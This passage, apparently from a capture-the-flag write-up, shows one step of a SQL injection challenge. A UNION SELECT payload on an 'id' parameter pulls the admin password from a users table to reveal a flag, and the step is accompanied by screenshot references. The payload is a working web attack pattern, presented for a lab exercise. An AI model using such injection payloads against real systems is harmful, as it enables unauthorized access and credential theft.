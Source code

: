 ![Database Columns](Columns.png)

**Step 4.5: Data Extraction - Final Flag**
```sql
?id=1.1 UNION SELECT 1,password,3 FROM users WHERE username='admin'--
```
This final query extracted the admin user's password, which contained the second flag.

![Second Flag](SecondFlag.png)

---